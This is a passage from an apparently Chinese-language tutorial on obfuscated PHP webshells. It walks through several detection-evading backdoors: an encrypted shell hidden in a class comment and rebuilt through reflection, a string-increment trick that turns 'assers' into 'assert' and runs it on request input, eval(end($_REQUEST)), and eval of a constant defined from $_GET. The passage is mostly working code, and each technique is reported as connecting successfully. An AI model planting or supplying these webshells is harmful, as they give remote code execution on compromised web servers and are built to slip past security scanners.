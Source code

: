 ```
        $$_key=  $_value;
        print_r($$_request);
    }
}
/*设置一个数组，参数为_POST,_GET,然后把该数组用$_request去表示，再设置一个遍历，把$_request设为一个可变变量，再键值分离
再设$$_key=$_value，做一个定义，定义可变变量$_key键等于值得内容再设$$_key=$_value，做一个定义，定义可变变量$_key键等于值得内容
*/
$zhushi($_value);
//最后就是assert(传入的变量值)
?>
```

原理就是通过把 shell 加密并放到注释里，利用类的反射机制获取类的注释，再解密去生成 shell

  
测试可以成功连接

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqYXicxUOGiaT5EaNJNg2F9I45HyxStdmzicy8L0oLFKKtVIjiapbTIibXsexXPSZTIhEjRfpcRs7FFQTg/640?wx_fmt=png)

**3. 利用字符的运算符**

```
<?php
    $__="assers"; 
    ++$__;
    //echo ++$__;
    $__($_REQUEST[x]);
?>
```

设 $__ 为字符串 assers, 然后对这个字符串进行自增操作

这里 ++ 是直接对这个字符串里的最后一个字符进行自增操作，得到结果为 assert

然后去拼接 ($_REQUEST[x]);，生成 shell

测试可以正常连接  
![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqYXicxUOGiaT5EaNJNg2F9I4PUkR9HGCJaYl3QyItyyibTicdGzbqFKprHtfs6icNfuBC1L6kc1ic0DdGg/640?wx_fmt=png)

**4. 通过 end 函数代替 []**

```
<?php eval(end($_REQUEST));?>
```

这里的 end 函数的作用是输出数组中当前元素和最后一个元素的值

这里由于传参就一个，所以就直接输出我们传参的值，从而可以传入参数，这里就是我们传入参数相当于 shell 里的传参

测试可以正常连接

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqYXicxUOGiaT5EaNJNg2F9I4jMlPQUMaXltdvkjAonN7woWdwXk7CfwTMibQKgo1sqaWTkW8qYhm5wQ/640?wx_fmt=png)

**5. 通过常量去绕过**

```
<?php define("a","$_GET[1]");eval(a);?>
```
